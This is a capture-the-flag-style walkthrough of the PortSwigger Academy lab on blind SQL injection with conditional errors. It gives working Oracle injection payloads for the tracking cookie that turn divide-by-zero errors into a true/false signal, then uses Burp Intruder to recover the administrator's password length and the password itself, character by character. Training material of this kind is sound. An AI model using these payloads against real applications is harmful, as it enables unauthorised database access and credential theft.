





# Write-up: Blind SQL injection with conditional errors @ PortSwigger Academy



This write-up for the lab *Blind SQL injection with conditional errors* is part of my walkthrough series for [PortSwigger's Web Security Academy](https://portswigger.net/web-security).

Lab-Link: <https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors>  
Difficulty: PRACTITIONER  
Python script: [script.py](script.py)  

## Lab description



## Query

The query used in the lab will look something like

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>'
```

In the example case, the cookie contains this content
`Cookie: TrackingId=Hhpmds8u7A7Wf4TH; session=CjLImZazM0kQSZvcI7rV4kieQhRygEzJ`

I will omit the complete cookie content from now on and only provide the string appended to the TrackingId value.

## Steps

### Confirm vulnerable parameter

Due to the type of vulnerability, we can neither see any result of the query nor any difference in output based on the truth value of some condition. However, if we can craft requests that cause (or don't cause) a database error based on a condition we inject, we can infer the truth value based on the fact whether an error is shown or not.

So as a first step we need to confirm that the parameter is vulnerable by crafting requests that give `normal` and `error` answers.

Injecting a single quote raises a server error, injecting two single quotes does not. This indicates an injection possibility, so try injecting some SQL statements. Injecting `'||(SELECT+null)||'` still shows an error, however injecting `'||(SELECT+null+FROM+dual)||'` does not. Therefore the database driving the page is an Oracle DB.

### Find 'normal' and 'error' statements

On the [cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet), a conditional error example is given: `SELECT CASE WHEN (<CONDITION>) THEN to_char(1/0) ELSE NULL END FROM dual`

For the `normal` query, we take an input that evaluates to `FALSE`, thus not hitting our division by zero.

```sql
SELECT trackingId FROM someTable WHERE trackingId = X'||(SELECT CASE WHEN (1=2) THEN to_char(1/0) ELSE NULL END FROM dual)||'
```

The content of the cookie for the `normal` case that displays the page as normal is

`'||(SELECT CASE WHEN (1=2) THEN to_char(1/0) ELSE NULL END FROM dual)||'`

The `error` case has a condition that evaluates to true, thus causing the database to execute the division by zero which results in an `internal server error`:

`'||(SELECT CASE WHEN (1=1) THEN to_char(1/0) ELSE NULL END FROM dual)||'`

---> Now we have a way to distinguish the result of a boolean condition.

### Confirm database table and columns

The next step is to confirm that the `users` table actually exists in the database. For this, I select from it and use the oracle version of limiting the number of output rows:

`'||(SELECT username||password FROM users WHERE rownum=1)||'`

---> It shows the page, confirming that this is a valid query and thus, that the table name and both column names are valid as well.

Just to be on the safe side, confirmed that invalid names in either of the fields result in an invalid query and an `internal server error`.

### Confirm user exists in the database

To confirm that the user exists in the database it is unfortunately not possible to inject a simple `'||(select username from users where username='administrator')||'`. This is a valid statement regardless of the existence of the user. As such, it shows the page regardless of the username used.

To cause an error, we extend the example by performing the division by zero if the username exists. This statement results in an `internal server error`, indicating that the query resulted in the division by zero:

`'||(SELECT CASE WHEN (1=1) THEN to_char(1/0) ELSE NULL END FROM users WHERE username='administrator')||'`

Changing the username to an arbitrary value, the page is shown. This confirms that the condition `1=1` and the following division by zero depend on whether the `FROM users WHERE...` part returns something.

This confirms that the user `administrator` exists in the database.

### Get the length of the password (could be hash as well)

Getting the length is done easily by adding the `LENGTH` function at the end of the SQL condition.

`'||(SELECT CASE WHEN (1=1) THEN to_char(1/0) ELSE NULL END FROM users WHERE username='administrator' and LENGTH(password)=1)||'`

This will show the page, indicating that the `1=1` check was never executed. Using Burp Intruder, I test all numbers from 1 to 50 as length, and get this result:



--> Password is exactly 20 characters long

### Enumerate the password of the administrator

Now that we have the length of the password, we can brute force each character individually. If the database would store a hash of the password, we could extract the hash for offline cracking.

`'||(SELECT CASE WHEN (1=1) THEN to_char(1/0) ELSE NULL END FROM users WHERE username='administrator' and SUBSTR(password,1,1)='a')||'`

This shows the page, indicating that the first letter is not an `a`. Using Burp Intruder again to brute force all 20 characters.


Attack type: *Cluster bomb*

- *Payload 1*: numeric sequential, 1...20
- *Payload 2*: Brute force - for real-life, add special characters

Filtering on server errors again, we can read the password: `3bk8bdchxubqft2tgsxr`



### Alternative

It is also possible to move the conditional check (e.g. the length of the substring part) into the condition of the `SELECT CASE WHEN` portion.

`'||(SELECT CASE WHEN (substr(password,1,1)='a') THEN to_char(1/0) ELSE NULL END FROM users WHERE username='administrator')||'`

For the length, the string is shown in this picture:


## Try login

With the credentials obtained I log in and the lab updates to


